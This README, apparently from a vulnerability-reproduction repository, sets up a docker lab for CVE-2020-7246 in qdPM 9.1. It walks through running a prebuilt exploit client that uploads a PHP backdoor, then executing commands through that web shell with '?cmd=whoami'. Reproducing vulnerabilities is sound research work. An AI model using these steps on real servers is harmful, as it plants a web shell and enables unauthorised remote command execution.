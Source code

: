 # CVE-2020-7246

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2020-7246>


## PoC / Exploit
 * <https://docs.google.com/document/d/13ZZSm0DL1Ie6r_fU5ZdDKGZ4defFqiFXMG--zDo8S10/edit>
 * <https://www.exploit-db.com/exploits/47954>

## Environment used
* Ubuntu 18.04 LTS
* qdPM 9.1

## Requirements
* docker
* docker-compose
## Reproduction 
Commands to build the environment
```shell script
docker-compose up 
```
* Browse into <http://SERVER_IP:8000/> and press "Database Config"
* In Database Config change the Database host to ```cve20207246_db_1``` DB username to ```teste```, DB password to ```teste```, then press Install Database
* Choose a password for the admin account and them press save
* Press Login As Administrator
* In the login menu use admin@localhost.com as username and the password is the one used above
* After login press Add User and change the following:
     * Fullname: ```teste```
     * Password: ```teste```
     * Email: ```teste@localhost.com```
* Press save

In the terminal execute the following command to inject malicious php file
```shell script
docker run --rm simaofsilva/cve-2020-7246-client -url <SERVER_IP>:8000 -u teste@localhost.com -p teste
```
* Next open the browser on the following link: <http://SERVER_IP:8000//uploads/users/>
* Select one of the php files of the format *-backdoor.php, getting a url in the format of <http://SERVER_IP:8000//uploads/users/*-backdoor.php>
* Add the ``` ?cmd=whoami ``` at the end of the url and ``` www-data ``` should appear as the response